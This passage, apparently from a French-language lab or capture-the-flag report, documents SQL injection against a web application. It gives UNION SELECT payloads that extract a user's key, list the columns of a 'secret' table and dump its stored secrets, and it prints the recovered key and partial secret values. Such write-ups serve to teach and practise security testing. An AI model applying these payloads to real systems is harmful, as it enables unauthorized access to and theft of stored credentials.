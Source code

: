 L'injection SQL pour récupérer la clé : 
```SQL
UNION SELECT '1','2',concat(login,key),'4',CURRENT_TIMESTAMP
FROM users where login = 'box'-- -
```
La clé en question est : ``9aeecab6c5c351706b14a304a630f19a``
![box key](<exploit/box key1.png>)
<p style="text-align: center; text-decoration: underline; color: #A14A1C ; font-style: italic;">Figure 35 : Clé de 'box'</p>

### 1.5 Les informations de la table "secret"
Commande utilisée pour recueillir les colonnes de la table secret :  
```SQL
UNION SELECT '1','2',concat(COLUMN_NAME),'4',CURRENT_TIMESTAMP 
FROM information_schema.COLUMNS 
WHERE table_name='secret' -- -
```
- Les colonnes de la table **secret** sont : 
  - id
  - name
  - user_id
  - secret

![secret sql injection](<exploit/secret sql injection.png>)
<p style="text-align: center; text-decoration: underline; color: #A14A1C ; font-style: italic;">Figure 36 : Colonnes de la table 'secret'</p>


Injection utilisée  :  
```SQL
' UNION SELECT '1','2',concat(id,name,user_id,secret),'4',CURRENT_TIMESTAMP 
from secret -- -
```
**Les enregistrements de la table "secret" sont :**
| id      | name        | user_id | secret                                     |
| :---:   |   :----:    |    :---:|                                       :---:|
| 1       | boxdb       | 1       |zBzBilPkw7EC2jlv2T4uY3y6iXTB8M...           |
| 2       | mypassword  | 1       |daeDAzoiRj402OY4dMlS9qk6ilW1uw...           |


Nous allons maintenant déchiffrer les secrets de l'utilisateur avec **l'id 1**.  
L'injection pour récupérer les clés est : 
```SQL
UNION SELECT '1','2',concat(user_id,secret),'4',CURRENT_TIMESTAMP
FROM secret
WHERE user_id=1 -- -
```
Les secrets trouvés sont visibles sur l'image ci-dessous.
![box secrets](<exploit/box secret1.png>)
<p style="text-align: center; text-decoration: underline; color: #A14A1C ; font-style: italic;">Figure 37 : Secrets de 'box'</p>
